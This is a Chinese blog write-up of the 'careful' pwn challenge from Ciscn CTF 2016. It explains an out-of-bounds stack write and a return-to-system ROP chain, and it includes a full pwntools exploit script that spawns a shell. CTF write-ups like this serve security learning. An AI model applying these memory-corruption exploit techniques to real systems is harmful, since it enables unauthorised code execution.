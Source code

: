 title: Ciscn CTF 2016 careful writeup

date: 2016/07/11 17:13:00

---

现在才知道原来system("sh")也可以拿shell……一直以为只能用system("/bin/sh")……

题目是挺简单的，not stripped，PLT中直接有system入口，程序从main函数直接进initarray函数然后就没了，在initarray里有一个循环10次读一个字节到数组中，但是index可以越界，所以可以改写栈内存（同时又能把计循环次数的变量也给改了，所以可以无限循环）：

<!--more-->

![ciscnctf_2016_careful_writeup0.png][1]


循环读完之后会把原来的数组位置print出来，不过这段似乎并没有什么卵用。

由于PLT中已经有了system入口了，所以来个/bin/sh的地址就行了，于是为了这个地址我开始漫长的计划，先修改返回地址为printf构造参数泄漏出printf地址，找个pop｜ret的gadget再跳回循环读的地方，用system的PLT入口和算出来的/bin/sh地址再修改返回地址，完美，简直完美。

完美个屁libc-database查不出远程glibc版本算不出偏移玩个毛线。

后来才知道原来只要"sh"其实也是可以的，用ROPgadget搜出个"sh"就可以了,我真的是拒绝的。

于是这么大一圈白绕了真尴尬，写都写了舍不得删，留作个too young的纪念吧。

```python
from pwn import *
from ctypes import *

p=process('./careful')
# p=remote('106.75.32.79',10000)

# popret='080483a1'
# printf='080483c0'
# fflush='080483d0'
# system='080483e0'
# print_got='0804a00c'
# begin='0804852D'
# out='08048563'

system='080483e0'
sh='0804828e'

def w(index,value):
	p.recvuntil('index:')
	p.sendline(str(index))
	p.recvuntil('value:')
	value='0A0A0A'+value
	c=c_int32(int(value,16)).value
	p.sendline(str(c))

def reset():
	w(28,'00')

def end():
	w(28,'11')

def wdword(index,word):
	w(index,word[6:])
	w(index+1,word[4:6])
	w(index+2,word[2:4])
	w(index+3,word[0:2])
	reset()

def main():
	"""
	# write print addr
	wdword(44,printf)
	wdword(48,popret)
	wdword(52,print_got)
	wdword(56,begin)
	# wdword(60,popret)
	# wdword(64,out)
	# wdword(68,begin)
	# gdb.attach(p,'b *0x8048604')
	end()

	recv=p.recv(4)

	sys_addr=u32(recv.ljust(4,'\x00'))
	print 'system addr: '+hex(sys_addr)
	sh_addr=sys_addr-0x4cbd0+0x15d1a9
	print '/bin/sh addr: '+hex(sh_addr)

	# gdb.attach(p,'b *0x08048604')
	p.sendline('28')
	p.recvuntil('value:')
        value='0A0A0A00'
        c=c_int32(int(value,16)).value
	p.sendline(str(c))

	wdword(44,system)
	wdword(52,hex(sh_addr)[2:])
	end()
	# gdb.attach(p,'b *0x8048604')
	p.interactive()
	"""
	wdword(44,system)
	wdword(52,sh)
	end()
	p.interactive()

main()

```


[1]: /images/ciscnctf_2016_careful_writeup0.png
